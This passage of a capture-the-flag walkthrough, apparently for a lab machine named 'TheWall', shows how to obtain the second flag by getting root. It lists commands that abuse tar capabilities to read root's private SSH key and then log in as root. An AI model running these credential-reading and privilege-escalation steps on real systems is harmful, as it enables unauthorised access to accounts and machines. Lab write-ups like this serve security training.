





5.4 Get root (Second flag)
1. On the SSH connection list the “/” files.
john@TheWall:/$ ls -al
Output:

There are two filws “id_rsa" and "id_rsa.pub”
2. Use tar capabilities to read root's private key. More info here.
john@TheWall:~$ /sbin/tar cf id_rsa.tar /id_rsa
john@TheWall:~$ tar xf id_rsa.tar
john@TheWall:~$ cat id_rsa
Now the “id_rsa” file has the “root” private key.
Output:


3. Connect via SSH using that private key.
john@TheWall:~$ ssh root@192.168.12.71 -i id_rsa
Output:

You are “root”.
4. Run the following commands to read the flag.
root@TheWall:~# ls
root@TheWall:~# cat r0Ot.txT
Output:
